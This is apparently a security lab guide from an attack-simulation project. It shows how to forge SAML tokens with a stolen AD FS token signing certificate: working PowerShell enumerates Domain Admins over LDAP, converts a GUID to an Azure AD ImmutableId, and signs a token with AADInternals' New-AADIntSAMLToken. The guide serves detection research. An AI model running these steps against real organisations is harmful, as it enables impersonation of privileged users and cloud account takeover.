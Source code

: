 # Forge SAML Tokens with Stolen Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to steal the AD FS token signing certificate from an AD FS server, it is just a matter of time until it is used to sign SAML tokens and impersonate users in a federated environments. 

## Main Steps
1.	Enumerate privileged accounts.
2.	Forge SAML tokens.

## Enumerate Privileged Accounts
Let’s start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named pgustavo was also the account that was assigned the Azure AD built-in Global Administrator role. Therefore, we can start by enumerating the members of the `Domain Admins` group.
There are several ways and protocols to accomplish this. However, for the purpose of this basic step, we are going to use LDAP search queries.

### Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account or local admin
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

**Enumerate Members of the Domain Admins Group**
Start PowerShell as administrator and run the following commands.

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter=" (&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers=$ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

## Forge SAML Token
Once again, a threat actor would most likely do this outside of the compromised organization. 
In the previous steps from the [Local Export AD FS Token Signing Certificate](localExportADFSTokenSigningCertificate.md) document, the certificate was exported to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx`.
 

## Convert User AD Object GUID to its Azure AD Immutable ID representation
Once we identify the privileged user we want to impersonate, we need to obtain the immutable id of the account AD object GUID. The ImmutableId is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$ObjectGUID = “07cd318c-b6ba-432e-9936-b992d7c78388”
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

We are now ready to forge a SAML token for the privileged user.

## Sign a New SAML Token via AADInternals
If you have not installed AADInternals yet, open PowerShell as administrator and run the following:

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.7 -Force
Import-Module –Name AADInternals
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_03_install_aadinternals.png)

Use the `New-AADIntSAMLToken` function to sign a new SAML token. We would need to pass the “ImmutableID”, the path to the token signing certificate and the issuer as parameters.

```PowerShell 
$ImmutableId = 'jDHNB7q2LkOZNrmS18eDiA=='
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken=New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

You can use the new SAML token to request access to other resources such as the Microsoft Graph API.

